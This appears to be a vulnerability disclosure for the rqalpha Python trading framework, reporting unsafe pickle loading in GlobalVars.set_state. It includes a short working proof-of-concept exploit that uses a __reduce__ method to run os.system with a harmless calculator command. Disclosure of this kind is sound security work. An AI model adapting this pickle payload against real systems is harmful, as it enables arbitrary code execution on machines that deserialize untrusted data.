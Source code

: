 # Description
rqalpha is an extendable, replaceable Python algorithmic backtest && trading framework supporting multiple securities . 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install rqalpha')
from rqalpha.core import global_var
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
global_var.GlobalVars.set_state(dumps,dumps)
```
* `pip3 install rqalpha`
* `python3 exploit.py`
